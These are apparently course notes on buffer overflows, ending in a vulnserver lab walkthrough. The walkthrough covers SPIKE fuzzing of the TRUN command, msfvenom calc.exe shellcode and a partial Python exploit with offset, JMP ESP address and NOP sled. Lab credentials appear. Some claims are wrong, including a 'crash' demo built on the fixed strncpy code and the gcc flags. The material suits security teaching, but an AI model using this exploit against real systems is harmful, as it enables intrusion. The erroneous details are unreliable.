


# Buffer Overflows

## Course Introduction

### Course Topic Overview

- Buffer Overflow Fundamentals
- Finding Buffer Overflow Vulnerabilities
- Stack-Based Overflows
- Windows Structured Exception Handling (SEH) Overflow
- Windows SEH Overflow (with SPIKE)

### Prerequisites

- **Programming Proficiency**:
	Students should have a strong understanding of programming concepts and experience with at least one programming language, such as C or C++, as exploit development often involves writing and analyzing low-level code.
- **Operating System Fundamentals**:
	A solid understanding of operating system concepts, particularly memory management, process execution, and system architecture, is essential for understanding how exploits work on different platforms.
- **Networking Fundamentals**:
	Basic knowledge of networking protocols (TCP/IP, UDP, HTTP, etc.) and network communication is important for understanding how exploits can be delivered over a network.
- **Assembly Language**:
	An understanding of assembly language programming is crucial for analyzing and crafting exploits, as exploits often involve manipulating machine-level instructions and memory.

### Learning Objectives

1. **Understand the Basics of Memory Exploitation:**
   Students will grasp the fundamentals of memory management in operating systems and how vulnerabilities in memory handling can lead to security exploits.

2. **Identify and Exploit Buffer Overflow Vulnerabilities:**
   Students will learn to recognize buffer overflow vulnerabilities in software applications and develop the skills to craft exploits to exploit them.

3. **Analyze Stack-Based Overflow Vulnerabilities:**
   Students will gain proficiency in analyzing stack-based overflow vulnerabilities, understanding their root causes, and exploiting them to gain control over program execution.

4. **Explore Structured Exception Handling (SEH) Overflows:**
   Students will delve into the intricacies of SEH-based overflow vulnerabilities in Windows systems, mastering techniques to manipulate SEH structures and execute arbitrary code.

---
---

## Buffer Overflow Fundamentals

### Introduction to Buffer Overflows - Theory

#### Buffer Overflows

In the previous course (System Security), we used the term "buffer overflow," numerous times. But what exactly does that mean?

The term buffer is loosely used to refer to any area in memory where more than one piece of data is stored.

An overflow occurs when we try to fill more data than the buffer can handle.

A buffer overflow can be likened to pouring 5 gallons of water into a 4-gallon bucket.

One common place you can see this is either online in Last Name fields of a registration form.


In this example, the "last name" field has five boxes.

Suppose your last name is "OTAVALI" (7 characters). Refusing to truncate your name, you enter all seven characters.

The two extra characters have to go somewhere!

This is what usually causes a buffer overflow, which is a condition in a program where a function attempts to copy more data into a buffer than it can hold.

For example, if you have allocated a specific amount of space in the stack, for instance, 10, and you exceed this by trying to copy more than 10 characters, then you will trigger a buffer overflow.

Suppose the computer allocates a buffer of 40 bytes of memory to store 10 integers (4 bytes per integer).

An attacker can test for a buffer overflow by sending the computer 11 integers (a total of 44 bytes) as input.


Whatever was in the location after the ten 40 bytes (allocated for our buffer), gets overwritten with the 11th integer of the attacker’s input.

Remember that the stack grows backward. Therefore the data in the buffer is copied from lowest memory addresses to highest memory addresses.

#### Vulnerable Code Sample

Review the following code. What can you tell about it? Anything interesting?

```c
int main(int argc, char** argv)
{
    argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char buffer[10];
    strcpy(buffer, argv[1]);
}
```

**Observations**
The array of characters (buffer) is 10 bytes long.
The code uses the function `strcpy`.

**Task**
Try to copy more data than the buffer can handle, using `strcpy`.

**Outcome**
We can see that `argv[1]` contains 35 "A" characters, while the buffer can handle only 10. When the program runs, the exceeding data has to go somewhere, and it will overwrite something in the memory: this is a buffer overflow.

**Code Outcome**
The Program Crashes.

**Root Cause Analysis**
The buffer overflow vulnerability is caused by improper use of the `strcpy` function.

**Analysis**
Without going into detail of how the function works, you should have figured out that the function does not check for bounds. Therefore, if the source, `argv[1]`, is bigger than the destination buffer/exceeds the destination buffer, an overflow occurs.
This means that whatever was in the memory location right after the buffer, is overwritten with our input.

**But what can we do with that?**

- In this example, it causes the application to crash. But, an attacker may be able to craft the input in a way that the program executes specific code, allowing the attacker to gain control of the program flow.
- We will explore this in a moment.

##### Fixing The Vulnerable Code

**Resolution**
The vulnerable code can be fixed by using a safer version of the `strcpy` function, called `strncpy` (notice the `n` in the function name).
Armed with this knowledge, we can say that a safe implementation of the vulnerable code would look something like this:

```c
int main(int argc, char** argv)
{
    argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char buffer[10];
    strncpy(buffer, argv[1], sizeof(buffer));
    return 0;
}
```

The modified code outlined in the previous slide is now safe and is not susceptible to buffer overflows. This is because the data that can be copied is limited to the limits defined by the buffer.
In the modified code, the function will only copy 10 bytes of data from `argv[1]`, while the rest will be discarded.
Now that we have understood what caused the buffer overflow, we can take a closer look at what happens in the stack; this will help you understand what happens at the process memory level.

#### Analyzing The Stack

The following is the new stack frame process review:
- Push the function parameters
- Call the function
- Execute the prologue (which updates EBP and ESP to create the new stack frame)
- Allocate local variable

When the `strcpy` function gets executed, it starts copying our input into the memory address allocated for `buffer[10]`.
Since there is not enough space, our input will be copied in the next memory address and will continue to fill memory addresses until there is no more input.
While this is happening, it will also be overwriting all the data in those memory locations and causing the overflow.

**What is getting overwritten?**
As you can see in the stack representation, this data includes the EBP, the EIP and all the other bytes related to the previous stack frame.
Therefore, at the end of the `strcpy` instructions, our stack will look like the following:



**What can a pentester do with this?**
Since the EIP has been overwritten with `AAAA`, once the epilogue takes place, the program will try to return to a completely wrong address.
Remember that EIP points to the next instruction. An attacker can craft the payload in the input of the program to get the control of the program flow and return the function to a specific memory address location.
This is where it is important to know memory addresses of certain registers.



#### Triggering a Buffer Overflow - Practical Demo

`vim buffer_overflow.c`:
```c
int main(int argc, char** argv)
{
    argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char buffer[10];
    strncpy(buffer, argv[1], sizeof(buffer));
    return 0;
}
```

**First Case: Standard Compilation**

`gcc buffer_overflow.c -o buffer_overflow`

`./buffer_overflow`:
```
*** stack smashing detected ***: ./buffer_overflow terminated
```

This is a buffer overflow detected thanks to the default protection.

`rm ./buffer_overflow`

**Second Case: Compilation with `-fstack-protector`**

`gcc fstack-protector buffer_overflow.c -o buffer_overflow`

`./buffer_overflow`:
```
*** stack smashing detected ***: ./buffer_overflow terminated
Aborted (core dumped)
```

In this case, the output is the same as the first case because buffer overflow protection is active.

`rm ./buffer_overflow`

**Third Case: Compilation with `-fno-stack-protector`**

`gcc fno-stack-protector buffer_overflow.c -o buffer_overflow`

`./buffer_overflow`:
```
Segmentation fault (core dumped)
```

In this case, buffer overflow protection is disabled, so the program causes a "segmentation fault" when it attempts to access memory beyond the allocated limits for the buffer.

### Finding Buffer Overflows - Theory

#### Finding Buffer Overflows

Before exploring the process of how to exploit buffer overflows and execute payloads, it is important to know how to find them.

Any application that uses unsafe operations, such as those below (there are many others), might be vulnerable to buffer overflows:
- `strcpy`
- `strcat`
- `gets` / `fgets`
- `vsprintf`
- `printf`
- `memcpy`

But, it actually depends on how the function is used.

Any function which carries out the following operations may be vulnerable to buffer overflows:
- Does not properly validate inputs before processing/executing input
- Does not check input boundaries

However, buffer overflows are primarily caused by unsafe languages, which allow the use of pointers or provide raw access to memory.

All the interpreted languages such as C#, Visual Basic, .Net, JAVA, etc. are safe from such vulnerabilities.

Moreover, buffer overflows can be triggered by any of the following buffer operations:
- User input
- Data loaded from a disk
- Data from the network

As you can imagine, if you want to manually find a buffer overflow in a large application, it will be difficult and time-consuming.

**BOF Hunting Techniques**

When a crash occurs, be prepared to hunt for the vulnerability with a debugger (the most efficient and well-known technique).
Some companies use cloud-fuzzing to brute-force crashing (using file-based inputs). Whenever a crash is found, it is recorded for further analysis.
A dynamic analysis tool like a fuzzer or tracer, which tracks all executions and the data flow, can help in finding problems/errors/crashes.

All of the techniques listed previously can be used to discover a large number/types of vulnerabilities (such as overflows, negative indexing of an array and so on), but the challenge lies in exploiting the vulnerability.

A large number of vulnerabilities are un-exploitable. Almost 50% of vulnerabilities are not exploitable at all, but they may lead to DOS (denial of service attacks) or cause other side-effects.

### Finding Buffer Overflows with Fuzzing - Theory

#### Fuzzing

Fuzzing is a software testing technique that provides invalid data, i.e., unexpected or random data as input to a program.

Input can be in any form such as:
  - Command line
  - Parameters
  - Network data
  - File input
  - Databases
  - Shared memory regions
  - Keyboard/mouse input
  - Environment variables

In the context of finding buffer overflow vulnerabilities, fuzzing involves sending malformed or unexpected data to the target program's input (e.g., command-line arguments, file inputs, network packets) in an attempt to trigger buffer overflow errors.

Buffer overflow vulnerabilities occur when a program writes data beyond the bounds of a buffer, potentially allowing an attacker to overwrite adjacent memory locations with malicious code or data.

Fuzzing aims to identify such vulnerabilities by systematically testing various input combinations to see if they cause the program to crash or exhibit unexpected behavior.

Whenever inconsistent behavior is found, all related information is collected, which will later be used by the operator to recreate the case and hunt-down/solve the problem.

However, fuzzing is an exponential problem and is also resource-intensive, and therefore, in reality, it cannot be used to test all the cases.

### Fuzzing Windows Software with SPIKE - Theory/Lab

#### SPIKE

There are numerous fuzzers available, but in the context of this course we will focus on [SPIKE](https://github.com/guilhermeferreira/spikepp).

SPIKE is a protocol fuzzer creation kit. It provides an API that allows a user to create their own fuzzers for network based protocols using the C++ programming language. The tool defines a number of primitives that it makes available to C coders, which allows it to <u>construct fuzzed messages called "SPIKES" that can be sent to a network service</u>.

##### SPIKE Scripting

SPIKE also includes a basic scripting capability that <u>allows you to use SPIKE primitives to fuzz applications without having to code your own SPIKE fuzzer in C</u>. A variety of different interpreters are available with the SPIKE distribution that allow you to specify certain relevant subsets of these SPIKE primitives to send against various types of network applications. In order to simplify things for the rest of this article, I am going to <u>refer to this subset of SPIKE primitives that can be used in SPIKE scripts as "commands"</u>.

**generic_send_tcp**

In the case of TCP based server applications, we can make use of this scripting capability by writing SPIKE commands into `.spk` script files, and running them using the TCP SPIKE script interpreter `generic_send_tcp` (pre-installed on Kali Linux), which will send the specified SPIKE at a particular IP address and TCP port.
There is also a `generic_send_udp`, which will do something similar, however within this interpreter the SPIKES will be sent over UDP.

`generic_send_tcp`:
```
argc=1
Usage: ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
./generic_send_tcp 192.168.1.100 701 something.spk 0 0
```

Hopefully the first three required command line options are self-explanatory, with parameters one and two defining the host and TCP port to connect to for fuzzing, and the third parameter defining the name of the SPIKE script file.
Parameters 4 and 5, `SKIPVAR` and `SKIPSTR`, essentially allow you to jump into the middle of the fuzzing session defined by a SPIKE script.

**s_string_variable**

Within a SPIKE script, you may specify `s_string_variable`, which is the command used to insert the actual fuzzed string into each SPIKE that you send.

**SKIPVAR**

If you use more than one of these `s_string_variable` in your script, you can skip using the earlier instances of `s_string_variable` by setting an appropriate value for `SKIPVAR`.
For example, if you include three `s_string_variable` in your SPIKE script, and you want to ignore the first two variables and only fuzz the third, you would set `SKIPVAR` to 2 (the numbering of the variables starts counting upwards from 0, so the third variable is referred to by the number 2).

**SKIPSTR**

Each of the `s_string_variable` also has an array of different fuzz string values inbuilt into SPIKE that it will iterate through within a SPIKE fuzzing session.
For example, if you want to skip the first 10 of these strings, and start fuzzing at string 11, you can set `SKIPSTR` to 10 (again, counting starts from 0).

When you use `generic_send_tcp`, it will output information to the command line about which variable and string it is currently testing, so if a SPIKE session gets interrupted and you need to continue it later on you can do so with the use of these two command line parameters.

To start a fuzzing session from the beginning, just use `0 0` for these parameters.
For example, to start a fuzzing session against host 192.168.1.101 on port 9999 using script file test.spk from the beginning, use the following command line: `generic_send_tcp 172.16.5.120 9999 test.spk 0 0`.

##### SPIKE Scripting Commands

To write a SPIKE script for our fuzzing exercise, we first need to know what some of the available commands are and what they do.

If you want to hunt through the SPIKE distribution directory, the available primitives that we can use as commands in our script file can be discovered by examining some of the example .spk files as well as the SPIKE header file spike.h. The spike.h file will list the available primitives (commands), and the .spk files will provide examples of how those commands can be used.
Keep in mind that the SPIKE scripting capability will only support a subset of the primitives in spike.h.

The commands have been broken below into a number of high-level categories relating to strings, binary data, blocks and other useful functions.

**Strings**

The string commands provide a way of adding ASCII character data into your SPIKES. Also included within the string commands is the `s_string_variable` command, one of the most important commands within SPIKE as it actually allows you to add fuzz strings to your SPIKE.

- `s_string("string"); // simply prints the fixed string "string" as part of your "SPIKE"`.
- `s_string_repeat("string", 200); // repeats the fixed string "string" 200 times`.
- `s_string_variable("string"); // inserts a fuzzed string into your "SPIKE"`. The string "string" will be used for the first iteration of this variable, as well as for any SPIKES where other `s_string_variables` are being iterated.

**Binary Data**

The binary commands provide a way of adding binary data to your SPIKES. They support a wide variety of ways to specify the binary data.

- `s_binary("\\x41"); // inserts binary representation of 0x41 (hex) = "A" (ASCII)`.
- `s_binary_repeat("\\x41", 200); // inserts binary representation of 0x41 200 times`.

For the binary commands in SPIKE, various other methods for specifying the same data are also available. To output the same hex character as shown above, we could use "41" or "0x41" as well, and we can also mix and match these values, (e.g. `410×41\\x42` to output ASCII "AAB").
Any added white space is also ignored. All of this combines to allows easy cutting and pasting from a variety of different applications that represent data in Hex format, such as packet capture tools, debuggers, etc.

**Defining Blocks**

Block defining commands allow you to specify the start and end points of a named block within a SPIKE script. This allows you to define the size of those sections of data in your SPIKES using block size commands.

- `s_block_start("block1"); // defines the start of block "block1"`.
- `s_block_end("block1"); // defines the end of block "block1"`.

**Block Sizes**

Block size commands allow you to insert the size of data inside a named block inside the SPIKES generated by your script, using a variety of different size formats.

- `s_blocksize_string("block1", 2); // adds a string 2 characters long to the SPIKE that represents the size of block "block1"`.
- `s_binary_block_size_byte("block1"); // adds a 1 byte value to the SPIKE that represents the size of block "block1"`.

These are just two examples from the many ways of how block size can be added to a SPIKE. There are other methods too, that can allow you to represent block size in a large variety of formats, and some that even allow you to add preset values to the block size before it is

To see some of the other options, simply perform a grep on the spike.h file in the SPIKE src directory for the strings "block_size" or "blocksize".

**Other Useful Commands**

Other useful commands are those that don't fit into any of the other categories previously mentioned.

- `s_read_packet(); // reads and prints to screen data received from the server`.
- `s_readline(); // reads a single line of input from the server`.

You can also use general C language functions within SPIKE scripts, to give you additional scripting capabilities. One particularly useful function is `printf()`, which can be used to output data to the terminal, which can give our scripts more informative console output.

**SPIKE Script Example**

The following is an example SPIKE script that could be used to fuzz the `inputvar` variable in php script `testme.php` via a POST request to `testserver.example.com`.

```
s_string("POST /testme.php HTTP/1.1\r\n");
s_string("Host: testserver.example.com\r\n");
s_string("Content-Length: ");
s_blocksize_string("block1", 5);
s_string("\r\nConnection: close\r\n\r\n");

s_block_start("block1");
s_string("inputvar=");
s_string_variable("inputval"); ←
s_block_end("block1");
```

This script essentially specifies a message like the below, where `[fuzz_string]` represents the location where the SPIKE fuzz strings will be inserted into the message, and `[size_of_data]` represents the size of the data section of the POST request, which contains the fixed string `inputvar=` and the variable data of the fuzz string. This size field will be automatically updated as the fuzz string changes.

```
POST /testme.php HTTP/1.1
Host: testserver.example.com
Content-Length: [size_of_data]
Connection: close
inputvar=[fuzz_string]
```

*Length Calculation Example*

Let's assume the fuzzing variable `inputval` is set to "fuzzdata".

Here's how the length of the POST body is calculated:
1. **Fixed String `inputvar=`**:
    - Length: 9 characters
2. **Variable String `inputval` ("fuzzdata")**:
    - Length: 8 characters
3. **Total Length of Block "block1"**:
    - Length of `inputvar=`: 9 characters
    - Length of `inputval` ("fuzzdata"): 8 characters
    - Total length: 9 + 8 = 17 characters

*SPIKE Script Output*

SPIKE will calculate this length and substitute it into the `Content-Length` header field. The generated HTTP request will look like this:

```
POST /testme.php HTTP/1.1
Host: testserver.example.com
Content-Length: 17
Connection: close

inputvar=fuzzdata
```

In this example, the `Content-Length` header is correctly set to 17, which is the total length of the data being sent in the POST request body. This ensures that the server correctly interprets the length of the incoming data.

#### Lab Environment

**Scenario**

Your red team manager keeps challenging you, to further develop your exploit development skills.
This time he tasked you with automating payload generation and crash identification.
A Windows 7 machine has been set up for you.
Vulnserver is in this machine's Desktop and it will be the target of fuzzing activities.
Your challenge is to identify if there is a vulnerability in vulnserver's `TRUN` command, through fuzzing.

You can connect to the lab machine via remote desktop. The target IP is **172.16.5.120**.

The remote desktop credentials are the following:
```
Username: IEUser
Password: Passw0rd!
```

In this lab's context, we chose to run vulnserver on port 9999: `vulnserver.exe 9999`.

The remote machine doesn't feature any protection.

**Goals**
Automate payload generation and vulnerability identification.

**What you will learn**
Utilizing fuzzing for effective vulnerability identification.

**Recommended tools**
- Immunity Debugger
- Mona.py
- SPIKE
- Wireshark
- Kali linux

##### Tasks

1. **Interact with the remote vulnserver**

First, log in to the remote machine (172.16.5.120) and start vulnserver: `vulnserver.exe 9999`.

Back to your attacking machine, use netcat to interact with the remote vulnserver. Try to identify its commands and their parameters.

2. **Create SPIKE templates**

Create SPIKE templates, that will instruct SPIKE to test certain commands/parameters. Specifically, we would like to send fuzzed strings in the place of a supported command, and as parameters to supported commands that do, and do not seem to support parameters.

3. **Send packages to Vulnserver with SPIKE**

SPIKE can transmit both TCP and UDP packages. The `generic_send_tcp` command (pre-installed on Kali Linux) is used to transmit TCP packages.

```
generic_send_tcp <IP address> <port number> <template name> <SKIPVAR> <SKIPSTR>
```

In this lab's context SKIPVAR will always be zero.

SKIPSTR is used when we want to commence fuzzing from a specific string onwards. If SKIPSTR is zero, then all available strings will be transmitted and tested.

4. **Monitor vulnserver with Immunity and create a working exploit in case of an exploitable crash**

Use Immunity debugger to monitor vulnserver's state. In case of a crash, investigate if this crash can be exploited for command execution and create a working POC exploit.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ip addr | grep -i "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet6 ::1/128 scope host 
inet 192.168.0.3/24 brd 192.168.0.255 scope global adlab0
inet6 fe80::a00:27ff:fef9:76b6/64 scope link 
inet 172.16.5.101/24 brd 172.16.5.255 scope global eth1 ←
inet6 fe80::a00:27ff:fed4:ee5d/64 scope link
```

`nmap -sn 172.16.5.120`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-12 20:09 EDT
Nmap scan report for 172.16.5.120
Host is up (0.00073s latency). ←
MAC Address: 08:00:27:99:B1:5F (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 15.03 seconds
```

`nmap -sS -sV -F 172.16.5.120`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-12 20:10 EDT
Nmap scan report for 172.16.5.120
Host is up (0.00085s latency).
Not shown: 98 filtered ports
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 6.7 (protocol 2.0)
3389/tcp open  ssl/ms-wbt-server? ←
MAC Address: 08:00:27:99:B1:5F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.58 seconds
```

To initiate a remote desktop connection, use the following command: `rdesktop 172.16.5.120 -u 'IEUSER' -p 'Passw0rd!'`.

1. **Interact with the remote vulnserver**

<span style="color: #64b5f6;">**Target (victim: 172.16.5.120) machine**</span>.

Navigate to the vulnserver directory and start the vulnerable server.

`cd ./Desktop`, `dir`:
```
    Directory: C:\Users\IEUser\Desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         7/11/2022   6:40 AM            vulnserver ←
```

`cd ./vulnserver`, `dir`:
```
    Directory: C:\Users\IEUser\Desktop\vulnserver

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         7/11/2022   6:40 AM            Source
-a---         7/11/2022   6:40 AM      16601 essfunc.dll
-a---         7/11/2022   6:40 AM       1501 LICENSE.TXT
-a---         7/11/2022   6:40 AM       3255 README.TXT
-a---         7/11/2022   6:40 AM      29624 vulnserver.exe ←
```

`./vulnserver.exe 9999`:
```
Starting vulnserver version 1.00
Called essential function dll version 1.00

This is vulnerable software!
Do not allow access from untrusted systems or networks!

Waiting for client connections...
```

<span style="color: #e57373;">**Attacker machine**</span>.

Use netcat to connect to the vulnserver.

`nc 172.16.5.120 9999`:
```
Welcome to Vulnerable Server! Enter HELP for help.

HELP

Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT

trun
UNKNOWN COMMAND
TRUN
UNKNOWN COMMAND
TRUN test
TRUN COMPLETE ←
TRUN AAAAAAAAAA
TRUN COMPLETE ←
TRUN 1234
TRUN COMPLETE ←
```

2. **Create SPIKE templates**

Create the following file for fuzzing the TRUN command.

`cd /root/Desktop`

`vim ./trun.spk`:
```
s_readline();                 // print received line from server
s_string("TRUN ");            // send fixed string
s_string_variable("COMMAND"); // send fuzzed string
```

3. **Send packages to Vulnserver with Spike**

Run the fuzzing script.

`generic_send_tcp 172.16.5.120 9999 ./trun.spk 0 0`:
```
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 5004
Fuzzing Variable 0:2
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 5005

...

Fuzzing Variable 0:48
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 9
Fuzzing Variable 0:49
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 3600
Fuzzing Variable 0:50 ←
Variablesize= 2400

...

Fuzzing Variable 0:163
Variablesize= 420
Fuzzing Variable 0:164
Variablesize= 257
Fuzzing Variable 0:165
```

We notice that packets are successfully transmitted and vulnserver crashes shortly after we began our fuzzing activities.

4. **Monitor vulnserver with Immunity and create a working exploit in case of an exploitable crash**

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

Restart the vulnerable server: `./vulnserver.exe 9999`.

To analyze the crash, use a debugger.
Open Immunity Debugger and attach it to vulnserver.

Go to `File` > `Attach` and select `vulnserver`.
Run the server within the debugger.

A crash may result in EIP overwrite.

<span style="color: #e57373;">**Attacker machine**</span>.

Re-fuzz the server to observe the crash: `generic_send_tcp 172.16.5.120 9999 trun.spk 0 0`.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

In Immunity Debugger, you will see an access violation error message indicating that the application attempted to execute `[41414141]`: `Access violation when executing [41414141]`. It looks like one of the transmitted "payloads" overwrote the EIP.

<span style="color: #e57373;">**Attacker machine**</span>.

On our attacking machine, there is no clear indication of which message/packet caused the crash. Let's restart the whole process again (attach and fuzz), but this time sniff the passing traffic with Wireshark, to learn more about the crash.

Restart the vulnerable server: `./vulnserver.exe 9999`.

To understand the network traffic, use Wireshark to capture the communication between the attacker and the target machine: `wireshark &`.

Apply the following filter to isolate the relevant traffic: `tcp.port == 9999`.

Re-fuzz the server to observe the crash: `generic_send_tcp 172.16.5.120 9999 trun.spk 0 0`.

We should follow the TCP conversations to learn more about the crash. We are specifically looking for conversations that don't include "TRUN COMPLETE". If the remote server crashed, "TRUN COMPLETE" will be missing from the conversation.

1. **Watch the traffic in Wireshark**. You will see multiple packets being sent to the target machine. Look for the packet after which there is no response or "TRUN COMPLETE" message from the server.
2. **Follow the TCP Stream:** Find the last packet before the crash. Right-click on the packet and select "Follow" -> "TCP Stream". This will open a new window showing the entire conversation between your machine and the target server.
3. **Identify the Crash Packet:** In the TCP stream window, look for the last few packets. The packet that caused the crash will be the one after which the server stops responding. The command sent in this packet is likely the one that triggered the crash.

**Note**
During our fuzzing process with Vulnserver, we identified a crash that occurred at item `0:1`. In this context, `0` represents the test case index, and `1` denotes the specific packet within that test case that caused the crash. This means that the first series of test cases (`0`) were being processed, and the crash happened on the second packet (`1`) of that series.
To continue our fuzzing process and potentially discover additional crashes, we can instruct our fuzzing tool to start from where we left off. By using the command: `generic_send_tcp 172.16.5.120 9999 trun.spk 0 2`, we tell the tool to resume fuzzing from the third packet (`2`) within the first series of test cases (`0`). This way, we avoid retesting the packets that have already been processed (`0:0` and `0:1`). But this is not the case. 

The payload that caused the crash is the following:
```c
"A" * 2006
```

Once identified the payload causing the crash, create a shellcode for exploitation.

Generate the shellcode to execute `calc.exe` using msfvenom.

`msfvenom -p windows/exec cmd=calc.exe exitfunc=thread -b "\x00" -f c`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of c file: 949 bytes
unsigned char buf[] = 
"\xda\xd1\xd9\x74\x24\xf4\x58\xbb\xc0\x26\x1d\xe5\x2b\xc9\xb1"
"\x31\x31\x58\x18\x03\x58\x18\x83\xe8\x3c\xc4\xe8\x19\x54\x8b"
"\x13\xe2\xa4\xec\x9a\x07\x95\x2c\xf8\x4c\x85\x9c\x8a\x01\x29"
"\x56\xde\xb1\xba\x1a\xf7\xb6\x0b\x90\x21\xf8\x8c\x89\x12\x9b"
"\x0e\xd0\x46\x7b\x2f\x1b\x9b\x7a\x68\x46\x56\x2e\x21\x0c\xc5"
"\xdf\x46\x58\xd6\x54\x14\x4c\x5e\x88\xec\x6f\x4f\x1f\x67\x36"
"\x4f\xa1\xa4\x42\xc6\xb9\xa9\x6f\x90\x32\x19\x1b\x23\x93\x50"
"\xe4\x88\xda\x5d\x17\xd0\x1b\x59\xc8\xa7\x55\x9a\x75\xb0\xa1"
"\xe1\xa1\x35\x32\x41\x21\xed\x9e\x70\xe6\x68\x54\x7e\x43\xfe"
"\x32\x62\x52\xd3\x48\x9e\xdf\xd2\x9e\x17\x9b\xf0\x3a\x7c\x7f"
"\x98\x1b\xd8\x2e\xa5\x7c\x83\x8f\x03\xf6\x29\xdb\x39\x55\x27"
"\x1a\xcf\xe3\x05\x1c\xcf\xeb\x39\x75\xfe\x60\xd6\x02\xff\xa2"
"\x93\xed\x1d\x67\xe9\x85\xbb\xe2\x50\xc8\x3b\xd9\x96\xf5\xbf"
"\xe8\x66\x02\xdf\x98\x63\x4e\x67\x70\x19\xdf\x02\x76\x8e\xe0"
"\x06\x15\x51\x73\xca\xf4\xf4\xf3\x69\x09"; ←
```

Now that we know that the `TRUN` command is vulnerable, we can follow the traditional stack overflow exploitation approach to identify the exact offset to overwrite EIP and then redirect the execution flow to our supplied buffer/shellcode.
Be reminded that the remote machine doesn't feature any protection.

Create a Python script for exploitation.

`vim /root/Desktop/shellcode.py`:
```python
#!/usr/bin/python
import socket

server_ip = '172.16.5.120'
server_port = 9999

prefix = 'A' * 2006
eip = '\xaf\x11\x50\x62' # !mona jmp -r esp -cpb "\x00"
nopsled = '\x90' * 16
exploit = (
	"\xda\xd1\xd9\x74\x24\xf4\x58\xbb\xc0\x26\x1d\xe5\x2b\xc9\xb1"
	"\x31\x31\x58\x18\x03\x58\x18\x83\xe8\x3c\xc4\xe8\x19\x54\x8b"
	"\x13\xe2\xa4\xec\x9a\x07\x95\x2c\xf8\x4c\x85\x9c\x8a\x01\x29"
	"\x56\xde\xb1\xba\x1a\xf7\xb6\x0b\x90\x21\xf8\x8c\x89\x12\x9b"
	"\x0e\xd0\x46\x7b\x2f\x1b\x9b\x7a\x68\x46\x56\x2e\x21\x0c\xc5"
	"\xdf\x46\x58\xd6\x54\x14\x4c\x5e\x88\xec\x6f\x4f\x1f\x67\x36"
	"\x4f\xa1\xa4\x42\xc6\xb9\xa9\x6f\x90\x32\x19\x1b\x23\x93\x50"
	"\xe4\x88\xda\x5d\x17\xd0\x1b\x59\xc8\xa7\x55\x9a\x75\xb0\xa1"
	"\xe1\xa1\x35\x32\x41\x21\xed\x9e\x70\xe6\x68\x54\x7e\x43\xfe"
	"\x32\x62\x52\xd3\x48\x9e\xdf\xd2\x9e\x17\x9b\xf0\x3a\x7c\x7f"
	"\x98\x1b\xd8\x2e\xa5\x7c\x83\x8f\x03\xf6\x29\xdb\x39\x55\x27"
	"\x1a\xcf\xe3\x05\x1c\xcf\xeb\x39\x75\xfe\x60\xd6\x02\xff\xa2"
	"\x93\xed\x1d\x67\xe9\x85\xbb\xe2\x50\xc8\x3b\xd9\x96\xf5\xbf"
	"\xe8\x66\x02\xdf\x98\x63\x4e\x67\x70\x19\xdf\x02\x76\x8e\xe0"
	"\x06\x15\x51\x73\xca\xf4\xf4\xf3\x69\x09"
)
